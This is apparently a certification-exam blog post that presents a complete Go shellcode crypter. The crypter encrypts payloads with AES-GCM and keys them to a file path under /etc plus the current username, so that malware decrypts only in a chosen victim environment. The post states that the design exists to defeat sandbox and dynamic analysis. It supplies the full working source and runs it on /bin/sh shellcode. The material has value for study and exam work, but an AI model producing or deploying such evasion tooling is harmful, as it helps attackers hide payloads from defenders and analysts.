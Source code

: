 
# Creating your own crypter using golang

In this article, we will build a simple crypter for encrypting and decrypting shellcode. I chose to implement the crypter in go using environmental keys.

## Encryption

The encryption/decryption process is using AES GCM and a specific file in `/etc/` concatenated with the current user logged in as the key. This is called *Environmental Keying*, meaning you use specific values found in the victim's environment such as files, hostname or users. The purpose of this is to make sure that your malware **only** executes in a specific environment. This means the attacker needs to know some details about the environment before encrypting any shellcode.

Analysing the shellcode will be difficult because the correct environment values are needed in order to successfully decrypt the shellcode. Relying on dynamic analysis in a sandbox is futile because of this reason.

The specific values that I have chosen for the key is the file path `/etc/vmware-tools/scripts/vmware/network` and current logged in user. The final key will look like this: `/etc/vmware-tools/scripts/vmware/networkdubs3c`.

The following example encrypts a simple shellcode that executes `/bin/sh`:

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_7$ go run main.go -e -s "\xfc\xbb\x1b\x91\xcd\xc8\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x2a\x43\x9f\xa0\x22\x4c\x53\x59\xd2\xbd\xbc\xfb\x4b\x4b\x21\xca\x42\x7a\x66\x9d\x5f\xb0\xe6\xde\x5f\x4a\xe7\xde"
[+] Your encrypted shellcode: 5af9fb00a2147e12ba73c2686b1b25fac3f441ffcb6974b00ec7413208dc749dae128faf67a5db80fe868dc2386e30546409503beb9ea6973441dc0ace3b35563550e3041fdde2c234b7dbd36ce74f1653ac08ec3be1f6fac3dd6fc34b378477bf6a5acf7800d01ee1c9280d8f6e2ccb8b13f517e790cc6d6623df9b1ced1dc1ebd8df2caca412f6f9d8233bd233fd6c590b12211f0706fc18dca864e97908df4eb638c8b223afc57d59714db119a0075dc935a65a38b4fe175fc15ad2b03125303b98c991ac01238f61c10f444bd85ad081fe2d097f816345e2ab98436cae10033c1cd870502608eac6a3149688b992
dubs3c@slae:~/SLAE/EXAM/github/assignment_7$
```

## Decryption

The decryption function will loop over all files and folders in `/etc/` and try each file path as the key together with the current username. When the correct key is found, the shellcode is decrypted.

Decrypting shellcode:

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_7$ go run main.go -d -s "5af9fb00a2147e12ba73c2686b1b25fac3f441ffcb6974b00ec7413208dc749dae128faf67a5db80fe868dc2386e30546409503beb9ea6973441dc0ace3b35563550e3041fdde2c234b7dbd36ce74f1653ac08ec3be1f6fac3dd6fc34b378477bf6a5acf7800d01ee1c9280d8f6e2ccb8b13f517e790cc6d6623df9b1ced1dc1ebd8df2caca412f6f9d8233bd233fd6c590b12211f0706fc18dca864e97908df4eb638c8b223afc57d59714db119a0075dc935a65a38b4fe175fc15ad2b03125303b98c991ac01238f61c10f444bd85ad081fe2d097f816345e2ab98436cae10033c1cd870502608eac6a3149688b992"
[+] Decrypted shellcode: \xfc\xbb\x1b\x91\xcd\xc8\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x2a\x43\x9f\xa0\x22\x4c\x53\x59\xd2\xbd\xbc\xfb\x4b\x4b\x21\xca\x42\x7a\x66\x9d\x5f\xb0\xe6\xde\x5f\x4a\xe7\xde
dubs3c@slae:~/SLAE/EXAM/github/assignment_7$
```

## Final code

Below is the final program for encrypting/decrypting shellcode.

```go
package main

import (
    "crypto/aes"
    "crypto/cipher"
    "crypto/rand"
    "crypto/sha256"
    "encoding/hex"
    "flag"
    "fmt"
    "io"
    "os"
    "os/user"
    "path/filepath"
)

type cliOptions struct {
    encrypt   bool
    decrypt   bool
    shellcode string
}

func processArgs() cliOptions {
    opts := cliOptions{}
    flag.BoolVar(&opts.decrypt, "decrypt", false, "Decrypt your shellcode")
    flag.BoolVar(&opts.decrypt, "d", false, "Decrypt your shellcode")
    flag.BoolVar(&opts.encrypt, "encrypt", false, "Encrypt your shellcode")
    flag.BoolVar(&opts.encrypt, "e", false, "Encrypt your shellcode")
    flag.StringVar(&opts.shellcode, "shellcode", "", "Your shellcode")
    flag.StringVar(&opts.shellcode, "s", "", "Your shellcode")
    flag.Parse()

    return opts
}

func init() {
    flag.Usage = func() {
        h := "\nEncrypt your shellcode! Very nice! Made by @dubs3c.\n\n"

        h += "Usage:\n"
        h += "  cyrptoBoot [shellcode] [options]\n\n"

        h += "Options:\n"
        h += "  -e,  --encrypt      Encrypt shellcode\n"
        h += "  -d,  --decrypt      Decrypt shellcode\n"
        h += "  -s,  --shellcode    Shellcode\n"
        h += "  -v,  --version      Show version\n"

        h += "\nExamples:\n"
        h += "  cryptoBoot -e -s \"<shellcode>\"\n"
        h += "  cryptoBoot -d -s \"<shellcode>\"\n"

        fmt.Fprintf(os.Stderr, h)
    }
}

func encrypt(shellcode string, envKey []byte) (encryptedShellcode []byte, err error) {
    plaintext := []byte(shellcode)

    block, err := aes.NewCipher(envKey)
    if err != nil {
        panic(err.Error())
    }

    // Never use more than 2^32 random nonces with a given key because of the risk of a repeat.
    nonce := make([]byte, 12)
    if _, err := io.ReadFull(rand.Reader, nonce); err != nil {
        panic(err.Error())
    }

    aesgcm, err := cipher.NewGCM(block)
    if err != nil {
        panic(err.Error())
    }

    ciphertext := aesgcm.Seal(nil, nonce, plaintext, nil)
    ciphertextWithNonce := append(nonce, ciphertext...)
    encodedCiphertext := make([]byte, hex.EncodedLen(len(ciphertextWithNonce)))
    hex.Encode(encodedCiphertext, ciphertextWithNonce)
    return encodedCiphertext, nil
}

func decrypt(ciphertext string, envKey []byte) (plaintext []byte, err error) {
    ciphertxt, _ := hex.DecodeString(ciphertext[24:])
    nonce, _ := hex.DecodeString(ciphertext[:24])

    block, err := aes.NewCipher(envKey)
    if err != nil {
        return []byte{}, err
    }

    aesgcm, err := cipher.NewGCM(block)
    if err != nil {
        return []byte{}, err
    }

    plaintxt, err := aesgcm.Open(nil, nonce, ciphertxt, nil)
    if err != nil {
        return []byte{}, err
    }

    return plaintxt, nil
}

func main() {

    if len(os.Args) <= 1 {
        flag.Usage()
        os.Exit(0)
    }

    opts := processArgs()

    currentUser := &user.User{}
    currentUser, err := user.Current()
    envPath := "/etc/vmware-tools/scripts/vmware/network"
    envKey := sha256.Sum256([]byte(envPath + currentUser.Username))

    if opts.encrypt {
        if opts.shellcode == "" {
            fmt.Println("[-] Please specify your shellcode")
            os.Exit(1)
        }

        ciphertext, err := encrypt(opts.shellcode, envKey[:])
        if err != nil {
            fmt.Println("[-] Something went wrong encrypting your shellcode. Error: ", err)
            os.Exit(1)
        }

        fmt.Printf("[+] Your encrypted shellcode: %s\n", ciphertext)
        return
    }

    if opts.decrypt {

        if opts.shellcode == "" {
            fmt.Println("[-] Please specify your encrypted shellcode")
            os.Exit(1)
        }

        encryptedShellcode := opts.shellcode

        err = filepath.Walk("/etc/", func(path string, info os.FileInfo, err error) error {
            envKey := sha256.Sum256([]byte(path + currentUser.Username))
            plaintext, err := decrypt(encryptedShellcode, envKey[:])
            if err != nil {
                // Disregard errors
                return nil
            } else {
                fmt.Printf("[+] Decrypted shellcode: %s\n", plaintext)
            }
            return nil
        })

        if err != nil {
            fmt.Printf("error walking the path %q: %v\n", "/etc/", err)
            return
        }
    }
}

```

---
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[https://www.pentesteracademy.com/course?id=3](https://www.pentesteracademy.com/course?id=3)

Student ID: SLAE-1490
